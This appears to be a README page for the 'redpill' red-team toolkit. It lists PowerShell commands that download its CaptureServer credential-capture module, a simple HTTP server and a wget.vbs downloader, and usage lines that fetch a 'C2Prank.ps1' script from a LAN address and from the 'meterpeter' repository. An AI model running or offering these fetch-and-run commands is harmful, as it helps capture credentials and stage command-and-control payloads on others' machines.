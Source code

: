 ## Module Name
   <b><i>CaptureServer.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|CaptureServer|Captute HTTP data (webserver)|User Land|Administrator|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/CaptureServer.ps1" -OutFile "CaptureServer.ps1"
```

```powershell
Import-Module -Name .\CaptureServer.ps1 -Force
CaptureServer -AuthType Basic -IPAddress 192.168.1.72 -LogFilePath $Env:TMP\logfile.txt
```

<br />

## Module Name
   <b><i>Start-SimpleHTTPServer.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Start-SimpleHTTPServer|Simple HTTP pure powershell webserver|Administrator|Current dir its used as webroot|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/Start-SimpleHTTPServer.ps1" -OutFile "Start-SimpleHTTPServer.ps1"
```

```powershell      
Import-Module -Name .\Start-SimpleHTTPServer.ps1 -Force
Start-SimpleHTTPServer
```   

<br />

## Module Name
   <b><i>wget.vbs</i></b>
   
|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|wget.vbs|VBScript to download files from Local Lan|User Land|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/wget.vbs" -OutFile "wget.vbs"
```

```powershell      
cscript wget.vbs http://10.11.0.5/C2Prank.ps1 C2Prank.ps1
.\wget.vbs https://raw.githubusercontent.com/r00t-3xp10it/meterpeter/master/mimiRatz/C2Prank.ps1 C2Prank.ps1
```  
